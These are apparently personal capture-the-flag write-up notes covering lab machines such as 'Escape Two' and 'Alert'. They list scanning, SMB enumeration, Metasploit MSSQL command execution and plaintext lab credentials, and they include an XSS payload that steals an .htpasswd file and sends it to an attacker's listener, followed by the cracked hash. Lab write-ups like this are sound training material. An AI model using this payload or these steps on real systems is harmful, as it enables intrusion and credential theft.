 - `SeBackupPrivilege` is enabled
- use the SEBackupPrivilege exploit to escalate the privileges and be administrator

# Machine : Escape Two
## User Flag
- `nmap 10.10.11.51 -sV -Pn -T4`
- `nxc smb 10.10.11.51 -u rose -p 'KxEPkKe6R8su' --users --rid-brute`
- `smbclient -L //10.10.11.51 -U rose` and enter rose's password
- `smbclient "//10.10.11.51/Accounting Department" -U rose` we find two exel files => download them.
- tried using impacket to connect to the sql database but didn't workout for some reason
```bash
mssqlclient.py 10.10.11.51/sa:'MSSQLP@ssw0rd!'@10.10.11.51  
Impacket v0.11.0 - Copyright 2023 Fortra  
[*] Encryption required, switching to TLS  
[-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed for user 'sa'.
```
- Im going to try metasploit:
	1. `msfconsole`
	2. `search mssql exec`
	3. `use auxiliary/admin/mssql/mssql_exec`
	4. set options to what we need
	5. by setting the CMP back and forth to things like `cd ../.. & dir` i was able to explore the machine and found a directory at the root named SQL2019 and found a .INI file that contained  interesting information
	6. (info impacket didn't work because someone changed the password of sa probably after getting root acces haha so it should work after all and we should be able to spawn a reverse shell to explore the machine but i found my technique easier to understand and to do)
	7. we found a password and we're going to try using it to connect to one of the accounts
- Connect to ryan and find the user flag.

## Root Flag
Was not able to do it

# Machine : Alert
## User Flag
- `nmap -sCV 10.10.11.44 -Pn`
- fuzz the website using ffuf `ffuf -w dict.txt -u http://alert.htb -H "Host:FUZZ.alert.htb" -ac `
- Inject this payload as an md file 
```js
<script>
  // Step 1: Request the secret password file from the target website
  fetch("http://alert.htb/messages.php?file=/var/www/statistics.alert.htb/.htpasswd")
    .then(response => response.text())  // Step 2: Read the file content
    .then(stolenData => {
      // Step 3: Send the stolen data to the attacker's server
      fetch("http://10.10.14.55:9001/?stolen_data=" + encodeURIComponent(stolenData));
    });
</script>
```
- we start an http server `python -m http.server 9001`
- we then send the link that was generated by the viewing of the md file in the contact us section (this was helped by a forum)
- we get an encoded url `10.10.11.44 - - [17/Feb/2025 04:51:28] "GET /?file_content=%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A HTTP/1.1" 200 -`
- decode the url and we get `albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
- this is a username and a password hash : used johntheripper to crack the hash
- the password retrieved is "manchesterunited"
- connect to albert and get the unser flag